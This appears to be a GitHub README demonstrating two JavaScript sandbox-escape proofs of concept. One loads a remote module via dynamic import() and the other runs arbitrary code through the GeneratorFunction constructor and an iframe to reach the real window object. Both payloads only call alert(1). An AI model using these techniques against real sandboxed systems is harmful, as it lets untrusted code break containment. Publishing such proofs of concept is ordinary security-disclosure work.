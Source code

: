 # Sandbox Escape PoC

## Dynamic module import
```javascript
const modulePromise = import ("https://lgfrbcsgo.github.io/sandbox-escape-poc/module.js")

modulePromise.then(module => {
  const window = module.default()
  window.alert(1)
})
```

## GeneratorFunction
```javascript
function exec(code) {
  class Class {
    * generator () {}
  }
  
  const GeneratorFunction = Class.prototype.generator.constructor

  const { value } = GeneratorFunction([], code)().next()
  return value
}

exec(`
  const frame = document.createElement("iframe")
  document.body.appendChild(frame)
  const window = frame.contentWindow.parent
  window.alert(1)
`)
```
